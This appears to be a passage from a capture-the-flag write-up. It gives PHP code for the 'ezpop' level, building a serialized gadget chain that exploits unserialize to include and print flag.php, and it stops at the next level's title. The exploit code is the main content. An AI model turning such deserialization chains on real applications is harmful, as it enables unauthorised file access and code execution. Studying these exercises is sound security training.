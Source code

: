 **leve9 ezpop**

```php
<?php

class Modifier {
    private $var="flag.php";
    public function append($value)
    {
        include($value);
        echo $flag;
    }
    public function __invoke(){
        $this->append($this->var);
    }
}

class Show{
    public $source;
    public $str;
    public function __toString(){
        return $this->str->source;
    }
    public function __wakeup(){
        echo $this->source;
    }
}

class Test{
    public $p;
    public function __construct(){
        $this->p = array();
    }

    public function __get($key){
        $function = $this->p;
        return $function();
    }
}

$a=new Modifier();
$b=new Show();
$c=new Test();

$b->source=$b;
$b->source->str=$c;
$c->p=$a;
echo "\n";
echo urlencode(serialize($b));
```

**level10 just_one_soap**
